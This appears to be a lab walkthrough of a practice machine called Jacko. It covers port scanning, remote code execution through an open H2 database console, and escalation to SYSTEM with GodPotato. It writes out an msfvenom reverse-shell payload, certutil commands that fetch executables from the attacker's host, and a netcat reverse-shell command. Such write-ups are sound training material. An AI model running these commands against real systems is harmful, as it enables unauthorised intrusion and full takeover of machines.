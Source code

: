 # Jacko

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.66
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:07 +08
Nmap scan report for 192.168.197.66
Host is up (0.17s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
5040/tcp  open     unknown
8082/tcp  open     blackice-alerts
9092/tcp  open     XmlIpcRegSvc
41213/tcp filtered unknown
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49668/tcp open     unknown
49669/tcp open     unknown
57199/tcp filtered unknown
```

Lots of ports. I did a detailed `nmap` scan to further enumerate the ports. We would find a H2 Instance on one of the ports from this scan:

```
$ sudo nmap -p 80,135,139,445,5040,8082,9092 -sC -sV -O -T4 -Pn 192.168.197.66
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:25 +08
Nmap scan report for 192.168.197.66
Host is up (0.17s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5040/tcp open  unknown
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc?
```

The H2 Database does have a few code execution exploits that might work.&#x20;

### H2 Database --> RCE

Port 8082 shows us the login to the H2 database.

<figure><img src="../../../.gitbook/assets/image (2284).png" alt=""><figcaption></figcaption></figure>

We can just click 'Connect', and login successfully.

<figure><img src="../../../.gitbook/assets/image (1084).png" alt=""><figcaption></figcaption></figure>

This version has code execution exploits available:

```
$ searchsploit H2 Database 1.4.199
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
H2 Database 1.4.199 - JNI Code Execution                   | java/local/49384.txt
----------------------------------------------------------- ---------------------------------
```

To exploit this, we would need to just copy and paste the script contents of the `searchsploit` file twice, and we would get RCE:

<figure><img src="../../../.gitbook/assets/image (831).png" alt=""><figcaption></figcaption></figure>

To get a reverse shell, simply use these 2 commands with a `msfvenom` generated payload.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.177 LPORT=21 -f exe > pwn.exe
certutil -urlcache -split -f http://192.168.45.177/pwn.exe C:\\Windows\\Tasks\\pwn.exe
C:\\Windows\\Tasks\\pwn.exe
```

<figure><img src="../../../.gitbook/assets/image (3697).png" alt=""><figcaption></figcaption></figure>

`whoami.exe` is located in `C:\Windows\System32`, and this machine has a broken PATH variable.

## Privilege Escalation

### PrintSpoofer Fail

We can check our privileges using `whoami.exe`:

```
C:\Windows\System32>whoami.exe /priv
whoami.exe /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The `SeImpersonatePrivilege` is enabled, so we can use `PrintSpoofer.exe` to exploit this. First, let's download the binary to the machine:

```
C:\Windows\System32>certutil -urlcache -split -f http://192.168.45.177/PrintSpoofer.exe C:/Windows/Tasks/print.exe
certutil -urlcache -split -f http://192.168.45.177/PrintSpoofer.exe C:/Windows/Tasks/print.exe
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.
```

However, the exploit seems to fail:

```
C:\Users\tony\Desktop>.\print.exe -i -c cmd
.\print.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[-] Operation failed or timed out
```

So we have to find another way.&#x20;

### GodPotato.exe

We can try using `GodPotato.exe` since that privilege is probably the intended solution:

```
C:\Windows\Tasks>.\godpotato.exe -cmd "cmd /c whoami"
.\godpotato.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140725151858688
[*] DispatchTable: 0x140725154201184
[*] UseProtseqFunction: 0x140725153568784
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\509f9274-ba8c-4b7c-844e-55d04cdf359c\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00009002-05c4-ffff-2de7-6cc9f11fd1cf
[*] DCOM obj OXID: 0x20259e4ef373758d
[*] DCOM obj OID: 0xdee8046159a66ec5
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 800 Token:0x504  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 408
```

Looks like it works well. Now we can download `nc.exe` onto the machine and get ourselves another reverse shell.&#x20;

```
C:\Windows\Tasks>.\godpotato.exe -cmd "cmd /c C:/Windows/Tasks/nc.exe 192.168.45.177 4444 -e cmd.exe
.\godpotato.exe -cmd "cmd /c C:/Windows/Tasks/nc.exe 192.168.45.177 4444 -e cmd.exe"
[*] CombaseModule: 0x140725151858688
[*] DispatchTable: 0x140725154201184
[*] UseProtseqFunction: 0x140725153568784
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\36900a7f-bec3-4dd7-9606-fc8ece7a7d11\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00008802-0d1c-ffff-64b7-d6de22e4ee03
[*] DCOM obj OXID: 0x1bb30dc7fc7c0cb7
[*] DCOM obj OID: 0x770fb99694a2c278
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 800 Token:0x504  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 1592
```

<figure><img src="../../../.gitbook/assets/image (2456).png" alt=""><figcaption></figcaption></figure>

This is a SYSTEM shell, and we can grab the required flags. Rooted!
